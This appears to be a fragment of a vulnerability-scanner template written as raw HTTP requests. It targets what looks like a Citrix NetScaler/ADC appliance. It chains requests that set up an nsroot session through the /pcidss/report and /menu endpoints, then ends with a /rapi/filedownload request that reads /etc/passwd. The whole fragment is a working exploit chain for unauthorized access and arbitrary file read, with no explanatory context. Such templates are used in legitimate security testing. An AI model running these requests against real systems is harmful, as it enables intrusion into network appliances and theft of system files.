 http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§
